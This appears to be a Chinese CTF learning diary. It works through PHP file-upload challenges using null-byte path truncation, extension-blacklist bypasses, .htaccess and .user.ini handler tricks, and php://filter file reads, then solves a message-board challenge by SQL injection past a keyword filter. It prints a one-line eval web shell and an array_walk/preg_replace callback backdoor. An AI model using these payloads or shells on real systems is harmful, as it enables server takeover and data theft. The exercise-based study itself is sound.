#前言
<?php
$file=$_FILE['file'];
move_upload_file($file['tmp_name'],$file['name'])；move_upload_file：将上传的文件移动到新的位置，第一个元素：需要上传的文件，第二个元素：将元素上传的位置
00截断
使用场景：
后端首先获得了用户上传的文件名，如x.php\00.jpg,再根据文件名获得文件实际的后缀；通过后缀的白名单校验后，最终再保存文件时发生截断，实现上传的文件为x.php
但实际上如果php使用$_file注册上传的时候并不存在这个问题，因为再$_file这里已经实现了截断
关于00截断，这里涉及到一道题目
不被允许的文件类型,仅支持上传jpg,gif,png后缀的文件可以看到，只能上传这些文件
然后上传试一下

看一下响应头
<html><head><meta charset="utf-8" /></head><body>
Array
(
[0] => .png
[1] => png
)
Upload: 1.png<br />Type: image/png<br />Size: 0.0234375 Kb<br />Stored in: ./uploads/8a9e5f6a7a789acb.phparray(4) {
["dirname"]=>
string(9) "./uploads"
["basename"]=>
string(5) "1.png"
["extension"]=>
string(3) "png"
["filename"]=>
string(1) "1"
}
<br>必须上传成后缀名为php的文件才行啊！<br></body>
</html>array这里面把截出来后缀，和不带点的后缀，猜测是不是从后面开始截断，碰到点就结束，然后第二次截断，去掉点。
后面哪个array（4），第一个把截出来原有的路径，第二个全称，第三个后缀，第四个不带后缀的文件吗，我们尝试一下可不可以用00截断

好像并没有实现截断，那该怎么办呢。。。。。
请求查看WP，然后学习了一篇文章
我们为什么要使用00截断，是因为，我们上传时后端进行了检测，我们可以手动添加00截断，截断掉后面的东西，而后面的东西又可以帮助我们绕过检测
使用条件：
php<5.3.29,且GPC关闭
00截断的利用方法
上传文件后端检测的代码：
$uploaded_name = $_FILES[ 'file' ][ 'name' ];
$uploaded_ext = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1); // 提取上传文件后缀
$target_name = md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext; // 对上传文件进行重命名
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ))
{
move_uploaded_file($_FILES["file"]["tmp_name"],
$dir . $target_name); // 将临时文件移动到指定目录
$result = $dir . $target_name;
echo "Stored in: $result";
}
else{
echo "Invalid file";
}刚才我在文件名中加上了%00进行了截断，看到有师傅说这是不对的
就是刚才看书里说的，上传用到了FILE，如果说文件名时1.php%00.jpg，file就会直接把%00后面的东西去掉了，那么我们时上传不上去的
那么再什么时候00截断才可以使用呢？数据爆中必需含有上传后文件的目录情况才可以使用，比如再数据包中存在path：uploads/，那么攻击者可以通过修改path的值来构造payload：uploads/1.php%00
刚才那道题目就符合这个
为什么这样可以，我想了一下
刚才看了源码也知道，如果通过了白名单检测，就会将我们的文件名拼接到路径后面。如果我们构造的路径是upload/1.php%00，那么拼接的结果就是upload/1.php%001.jpg，然后进行00截断变成了upload/1.php那我们就可以getshell
然后我尝试把payload：upload/1.php%00
但是依旧不对
继续看文章
首先解释为什么要进行urldecode操作呢？其原因在于上传的表单中有一个enctype的属性，并且需要enctype=”multipart/form-data” (不对表单中数据进行编码)，path大多数都是存放在表单中的，因此需要在数据包中进行urldecode操作使%00变成字符串结束符号。


原来%00就是已经编码过的，它原来是ascii表示0，而0作为特殊字符保留，作为字符串的结束，所以因为提交的表单不对表单的数据进行编码，而且path大多是存在表单的，所以需要对%00进行解码。。。因为ascii原本是不可见字符

拿到flag
文件后缀黑名单校验的绕过
上传文件重命名
写一下后端检测的代码：
<?php
$file=$_FILE['file'];
$name=$file['name'];
$ext=substr(strrchr($name,'.'),1);
$dir='upload/';
if(in_array($ext,array('php','asp','jsp'))){
echo('Forbid!');}
else{
$saveName=$dir.time().'.'.$ext;
move_upload_file($file['tmp_name'],$saveName);
exit('success');}php常见的可执行后缀是：php3，php5.phtml，pht。
asp常见的可执行后缀是：cdx、cer、asa等
jsp可以尝试的是jspx
但是如果就跟昨天的拿到题目如果我们不能
百度杯 9月场 upload
emmmm，说是随便传。。。
上传jpg，改后缀，上传成功
but！

很显然<?php,没了。。试试短标签

震惊！！！把<?给过滤了
那么就很显然过滤php跟<?
可以用到前面的知识
用phtml，进行写入一句话木马
<script language="PHP">
@eval($_POST[1]);
</script>前面哪个php改为大写就可以了
.htaccess
其实以前做题的时候也碰见过.htaccess，当时感觉自己就很急，然后就看玩WP之后就直接抄上去，然后刚才看了资料，就了解了很多
.htaccess再我的理解上，就是相当于一个文件配置，就是说让用户自己去通过上传文件来进行进行有助于我们进行下一步上传木马的操作
sethandler application/x-httpd-php
然后我们再进行下一步的上传，x-httpd-php是将所有上传的文件以php的形式进行解析，完成上传
.user.ini
.user.ini在我的理解下，就是简单的说，我感觉就是像是php.ini，不过user.ini就像是让用户自己上传，然后进行配置文件
上传的php.ini中应该包含着三部分
GIF89A绕过对图片的检测
其实这个可以
auto_prepend_file:指定一个文件，再任何php文件运行之前就把该文件包含进来
auto_append_file:类似前一项，区别是包含目标文件再php尾部执行。
第三届“百越杯”福建省高校网络空间安全大赛Do you know upload？
是这样子的，当我试图上传php然后被ban，然后直接再bp那里将.php改为了.png，失败后，我感觉emmm，我可以投个懒，直接再bp那里爆破，就方便很多了
然而。。。。
它一直都是文件不符合要求？？？我把php,txt,jpg,jpeg,png,php3,php5,phtml,gif,zip都试过后，竟然都上传不了，我就在想，这题这么nb？？？说是文件上传，但是啥都不能传，这题有毛病吧
看WP，对不起我错了，是我有毛病！！！
我为啥子要闲着没事用bp爆破。。。。。上传一个文件不好吗
以后还是老老试试的来吧
但是当我重新上传之后，然后因为这里

我在想，是不是是那个今天上午学的那个文件上传%00截断？？？但是就很奇怪，一旦上传成功就连上去了，当我以为这道题目到此为值得时候，我发现，它竟然没有flag.php着一类的文件夹！！！
当我尝试学着前几天看feng师傅的WP学到的新知识用find命令进行查找的时候，很显然没有找到

然后我每班法了，就只好求助WP
然后，我漏了一个config.php，是我不识泰山。。。。。刚才您这座这么重要的大山就在我傍边静静的站着，我竟然没有看到。。。。。。一句nb从给我自己
config.php是数据库的配置文件，有经验的师傅看到后肯定都会上数据库上想，但是想我这种菜狗，只能眼睁睁的错过这么好的提示信息。
<?php
error_reporting(0);
session_start();
$servername = "localhost";
$username = "ctf";
$password = "ctfctfctf";
$database = "ctf";
// 创建连接
$conn = mysql_connect($servername,$username,$password) or die(" connect to mysql error");
mysql_select_db($database);
?>这段代码就是告诉了我们登录数据库的用户名与密码。。。我万万没想到的是，蚁剑竟然也可以登录数据库。。。只能说，我对这个工具的了解还是太少了，真的是爱了爱了

方法二，使用大马
说实在，大马这玩意，我还真的没有使用过，因为一般文件上传用小马就可以了
XLcteam 客户留言板
先说功能
1.留言搜索
回显：万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~
url :so.php
2.留言
需要填写：昵称以及内容，可以进行预览，预览的时候有提示：(提示:再次提醒，xss不保证可以成功,允许留言是为了增加娱乐性，换条思路吧!，因为我也不会xss- -~) （很好，我也不会xss,nice）
url:say.php?nice=cky&usersay=show+databases()&Submit=确认提交
预览里面还有一个：preview.php
3.cms说明
回显：
很明显，这是安装后留下来忘删除的文件。。。 至于链接会出现在主页
上，这就要问管理员了。。。 ===============================华丽的分割线============================= 本CMS由Funny公
司开发的公司留言板系统，据本技术总监说，此CMS采用国际 顶级的技术所开发，安全性和实用性杠杠滴~</br> 以下是本CMS各文件的功
能说明（由于程序猿偷懒，只列了部分文件） config.php：存放数据库信息，移植此CMS时要修改 index.php：主页文件
passencode.php：Funny公司自写密码加密算法库 say.php：用于接收和处理用户留言请求 sm.txt：本CMS的说明文档 sae的
information_schema表好像没法检索，我在这里给出admin表结构 create table admin ( id integer, username text,
userpass text, ) ======================================================================== 下面是正经的： 本渗透测试平台由：三只小
潴(root#zcnhonker.net)& 冷爱(hh250@qq.com)开 发.由你们周老大我辛苦修改，不能题目都被AK嘛，你们说是不是。所以这一题。。你们做出来也算你们吊咯。 url：about.php?file=sm.txt
这句话给的提示有：有一个config.php（存放数据库的信息），有个index.php,主页文件是：passencode.php,加密算法库：say.php,用于接收和处理用户留言请求的sm.txt，给了admin表的结构create table admin(id integer,username text,iserpass text);
并且这个页面看起来好像存在任意文件读取漏洞。。。
/about.php?file=php://filter/read=convert.base64-encode/resource=so.php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>搜索留言</title>
</head>
<body>
<center>
<div id="say" name="say" align="left" style="width:1024px">
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br /> '.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
</div>
</center>
</body>
</html>在这里面我可以看到了他公司的浏览器是：Xlcteam Browser
这个里面倒是没有什么
但是当我尝试读config.php的时候，发现它提示到file参数不能为空，如果我尝试读取一个不存在的文件，那么不会有任何回显，但是现在它有提示，就说这个东西被过滤了，应该还是不置换为空了，但是当我进行双写绕过的时候，提示file的内容不能为空，确实让人奇怪
于是我读取了antiinject.php
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
$info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>这里面提供了过滤机制：select,union,and,from,空格，’,””,;,char,or,count,master,name,pass,admin,+,-order,=
<?php
function antixss($content){
preg_match("/(.*)\[a\](.*)\[\/a\](.*)/",$content,$url);
$key=array("(",")","&","\\","<",">","'","%28","%29"," on","data","src","eval","unescape","innerHTML","document","appendChild","createElement","write","String","setTimeout","cookie");//因为太菜，很懒，所以。。。(过滤规则来自Mramydnei)
$re=$url[2];
if(count($url)==0){
return htmlspecialchars($content);
}else{
for($i=0;$i<=count($key);$i++){
$re=str_replace($key[$i], '_',$re);
}
return htmlspecialchars($url[1],ENT_QUOTES).'<a href="'.$re.'>'.$re.'</a>'.htmlspecialchars($url[3],ENT_QUOTES);
}
}emmmmm应该是xss，但是题目也提示说了，不需要xss，于是我先放弃了，继续看下去
读取了about.php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
$file=$_GET['file'];
if($file=="" || strstr($file,'config.php')){//果然config.php被过滤了
echo "file参数不能为空！";
exit();
}else{
$cut=strchr($file,"loginxlcteam");
if($cut==false){
$data=file_get_contents($file);
$date=htmlspecialchars($data);
echo $date;
}else{
echo "<script>alert('敏感目录，禁止查看！但是。。。')</script>";
}
}嘿嘿直接

嘿嘿，万能密码没有登上去，先试试读取say.php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
include 'config.php';
$nice=$_POST['nice'];
$say=$_POST['usersay'];
if(!isset($_COOKIE['username'])){
setcookie('username',$nice);
setcookie('userpass','');
}
$username=$_COOKIE['username'];
$userpass=$_COOKIE['userpass'];
if($nice=="" || $say==""){
echo "<script>alert('昵称或留言内容不能为空！(如果有内容也弹出此框，不是网站问题喔~ 好吧，给个提示：查看页面源码有惊喜！)');</script>";
exit();
}
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$nice=mysql_real_escape_string($nice);
$username=mysql_real_escape_string($username);
$userpass=mysql_real_escape_string($userpass);
$result=mysql_query("SELECT username FROM admin where username='$nice'",$con);
$login=mysql_query("SELECT * FROM admin where username='$username' AND userpass='$userpass'",$con);
if(mysql_num_rows($result)>0 && mysql_num_rows($login)<=0){
echo "<script>alert('昵称已被使用，请更换！');</script>";
mysql_free_result($login);
mysql_free_result($result);
mysql_close($con);
exit();
}
mysql_free_result($login);
mysql_free_result($result);
$say=mysql_real_escape_string($say);
mysql_query("insert into message (nice,say,display) values ('$nice','$say',0)",$con);
mysql_close($con);
echo '<script>alert("构建和谐社会，留言需要经过管理员审核才可以显示！");window.location = "./index.php"</script>';
?>由此看了，这个留言版就只能自己注入了
尝试一下fuzz
什么都没有被过滤，然后我使用admin作为用户名登录的时候，提示我说，密码的长度不一致，牛啊牛啊，我从1输到20多个1，一直都是长度不一致
现在又又一个问题，当我输入admin’ #的时候提示用户名不存在？？？
然后看了一眼WP，感觉自己还是不够细心，刚才抓包的时候应该就应该看见它的用户名是username，密码是namepass，不就是

那么我们就应该想怎么找到注入点吧，这些东西爆出来
然后就应该想到say.php这里，刚才也看了它有select这类东西的过滤

然后测试回显点在哪里用union select，不能用order，因为or也被过滤了，它是按照先后顺序进行过滤的，先把or替换为空，然后再将order替换为空，就用union select来进行。然后这里get到了一个新的知识


admin~102 117 99 107 114 117 110 116 117
然后天真的我就直接去登录了，没有丝毫的怀疑，就不感觉密码不对劲马！！！
fuckruntu

然后，这道题让我知道了我思维是有多么的不缜密，因为当我看到有提示说它再根目录下放了马，我的第一反应就是直接再url中查看，但是界面是一片空白，就。。。应该想到about.php那里的那个?file,可以直接查看
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] =>'|.*|e',);
array_walk($arr, $e, '');
?>看不懂。。。
查资料，查资料
array_walk — 使用用户自定义函数对数组中的每个元素做回调处理
emmmm，通常这个解释我是看不懂的，再网上找了两篇文章拜读了一下，是关于PHP回调后门的。
这个代码和p神写的一样
array_walk的回调格式是需要三个参数的
php中，可以执行代码的函数：
一个参数：assert
两个参数：assert （php5.4.8+）
三个参数：preg_replace /e模式
所以可以使用preg_replace
http://cms.nuptzj.cn/%E6%81%AD%E5%96%9C%E4%BD%A0%E8%8E%B7%E5%BE%97flag2.txt